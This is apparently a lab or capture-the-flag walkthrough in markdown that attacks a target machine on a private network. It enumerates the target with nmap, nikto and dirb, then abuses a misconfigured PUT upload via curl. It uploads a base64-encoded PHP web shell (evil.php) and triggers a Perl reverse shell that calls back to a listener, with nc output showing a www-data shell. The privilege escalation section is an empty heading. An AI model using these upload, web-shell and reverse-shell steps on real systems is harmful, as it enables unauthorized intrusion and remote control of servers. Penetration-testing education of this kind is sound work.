 # Port Scan

Perform a Ping Sweep
```
nmap -sn 192.168.114.1-254
```
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-01 23:57 AEDT
MAC Address: 00:50:56:FE:6D:CA (VMware)
Nmap scan report for 192.168.114.132
Host is up (-0.10s latency).
MAC Address: 00:50:56:FF:87:FA (VMware)
Nmap scan report for 192.168.114.131
Host is up.
Nmap done: 254 IP addresses (5 hosts up) scanned in 2.35 seconds
```
192.168.114.131 is my KALI machine
192.168.114.132 is target machine

# Enumeration
### Port Enumeration
```
nmap -sV 192.168.114.132
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28
```
### HTTP Enumeration
```
nikto -h 192.168.114.132
```
```
+ Server: lighttpd/1.4.28
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ All CGI directories 'found', use '-C none' to test none
+ OSVDB-3268: /test/: Directory indexing found.
+ 26188 requests: 0 error(s) and 4 item(s) reported on remote host
```
Directory indexing found , but it is empty, so useless information.
```
dirb http://192.168.114.132
```
```
---- Scanning URL: http://192.168.114.132/ ----
+ http://192.168.114.132/index.php (CODE:200|SIZE:163)                         
==> DIRECTORY: http://192.168.114.132/test/ 
```
Also only found one directory.

### Searching for exploits
```
searchsploit -e lighttpd
```
Does not return with any major exploits or vulnerabilities.

Low Hanging Fruit : http://192.168.114.132/test/ 

Using cURL to see If we can upload any files onto /test/
```
echo "test" > test.txt
curl -T 'test.txt' 'http://192.168.114.132/test/test.txt'
```
```
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```
We are returned with Expectation Failed, which is unique. A bit of googling
https://stackoverflow.com/questions/9120760/curl-simple-file-upload-417-expectation-failed

Says we need to include --http1.0
### Vulnerability - Misconfigured Upload

```
curl -T 'test.txt' 'http://192.168.114.132/test/test.txt' --http1.0
```
Successfully Uploaded a file. 


# Exploit
Now we have full reigns on upload , you can upload a reverse php shell, backdoor etc. In this case we'll upload a basic php system call.
```
echo 'system($_GET['cmd']);' | base64      // Not neccessary to encode it to base64
echo "<?php eval(base64_decode('c3lzdGVtKCRfR0VUW2NtZF0pOwo=')) ?>" > evil.php
```
Upload and Accessing the exploit: in URL
http://192.168.114.132/test/evil.php?cmd="XXXXANYCOMMANDHERE"

Using a basic perl reverse shell (Generated from msfvenom)  // port 1234 , will not return anything. Port 443 works!
```
http://192.168.114.132/test/evil.php?cmd=192.168.114.132/test/test.php?cmd=/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.21.31:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
```
OR just use one of http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
nc -lvp 443
listening on [any] 443 ...
192.168.114.132: inverse host lookup failed: Unknown host
connect to [192.168.114.131] from (UNKNOWN) [192.168.114.132] 59858
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Privilege Escalation












